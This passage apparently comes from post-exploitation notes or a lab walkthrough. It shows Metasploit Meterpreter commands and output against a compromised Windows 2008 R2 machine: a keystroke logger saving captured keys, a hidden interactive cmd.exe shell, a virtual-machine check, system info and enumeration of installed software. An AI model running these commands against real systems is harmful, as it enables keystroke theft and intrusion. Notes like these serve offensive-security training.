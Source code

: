 ##### Alternative
```bash
meterpreter > run keylogrecorder

[!] Meterpreter scripts are deprecated. Try post/windows/capture/keylog_recorder.
[!] Example: run post/windows/capture/keylog_recorder OPTION=value [...]
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in to /root/.msf4/logs/scripts/keylogrecorder/52.255.150.97_20220824.1144.txt
[*] Recording

^C[*] Saving last few keystrokes

[*] Interrupt
[*] Stopping keystroke sniffer...
```


### Interactive Shell
```cmd!
execute -f cmd.exe -i -H
```
```cmd!
shell
```


### Check VM
```cmd!
meterpreter > run post/windows/gather/checkvm

[*] Checking if the target is a Virtual Machine ...
[+] This is a Hyper-V Virtual Machine
```

### Sysinfo
```cmd!
meterpreter > sysinfo
Computer        : DIGISERVER2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Get Installed Apps
```cmd
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DIGISERVER2

Installed Applications
======================

 Name                                                                                      Version
 ----                                                                                      -------
 Druva inSync 6.5.2                                                                        6.5.2.0
 Druva inSync 6.5.2                                                                        6.5.2.0
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946040)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946040)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946308)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946308)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946344)           1
```